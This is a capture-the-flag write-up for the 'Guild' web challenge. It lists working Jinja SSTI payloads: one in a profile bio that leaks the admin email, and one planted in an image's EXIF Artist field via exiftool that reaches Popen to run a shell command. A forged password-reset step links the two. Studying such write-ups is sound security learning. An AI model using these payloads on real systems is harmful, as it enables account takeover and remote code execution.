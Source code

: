 # Guild (<font color=lightgreen>Easy</font>)


## Description


## Tool Used
- Web Browser
- exiftool
- SHA-256

## Skill Learned
- Server-Side Template Injection (SSTI)

## Steps
1. Register and Log In
2. Exploit Server-Side Template Injection (SSTI) in profile. In the bio field, input:
    ```
      {{ User.query.filter(User.username=="admin").first().email }}
    ```
3. After saving and navigating to profile, the Admin's Email is displayed in the bio section
4. With the admin's email obtained, go to the Forgot Password page. Submit the admin's email address.
5. Construct the password reset URL:
    ```
      /changepasswd/<SHA256_HASH>
    ```
    Navigate to this URL to access the password reset page.
6. On the password reset page, set a new password for the admin account.
7. The /verify route used by admin opens the uploaded verification image, checks for an EXIF tag called Artist, and renders its value in a render_template_string() call.
    ```
    if "Artist" in exif_table.keys():
    sec_code = exif_table["Artist"]
    ...
    return render_template_string("Verified! {}".format(sec_code))
    ```
    We can  inject a server-side template injection (SSTI) payload into the Artist field of the image's EXIF metadata.
8. Use exiftool to inject an SSTI payload into an image file:
    ```
    exiftool -Artist="{% for i in ''.__class__.__mro__[1].__subclasses__() %}{% if i.__name__ == 'Popen' %}{{ i(['cat','flag.txt'], -1, None, None, -1).communicate()[0] }}{% endif %}{% endfor %}" photo.jpg
    ```
9. Log in with a non-admin account and modified image
10. Log in with admin account with the changed password and verify uploaded image. SSTI payload will be executed and flag is obtained.




